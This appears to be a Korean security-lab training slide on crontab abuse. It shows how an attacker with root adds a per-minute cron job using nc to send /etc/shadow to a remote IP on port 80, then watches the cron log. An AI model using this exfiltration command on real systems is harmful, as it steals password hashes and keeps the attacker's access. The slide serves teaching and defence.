

crontab 설정 실습

- 희생자 PC
| 시나리오: root권한 탈취당해 해커가 crontab 수정이 가능 한 상황 |
| --- |
| # yum –y install nc (nc : 네트워크 관련 프로그램) # rpm –qa |grep ncat- (nc설치여부 확인) # crontab –e \* \* \* \* \* nc 192.168.100.131 80 < /etc/shadow (-> /etc/shadow 내용을 192.168.100.131 80 포트로 입력 값으로 전송 ( < : 입력 재지정) |
※ crontab 으로 설정된 내용의 의미 :
 * * * * *  nc  192.168.100.131  80 < /etc/shadow

 /etc/shadow 내용을  192.168.100.131 80 포트로 입력 값으로 전송 ( < : 입력 재지정)
| 새 터미널 열어서 cron 로그 확인 |
| --- |
| #tail –f /var/log/cron (->log 확인) |

crontab 설정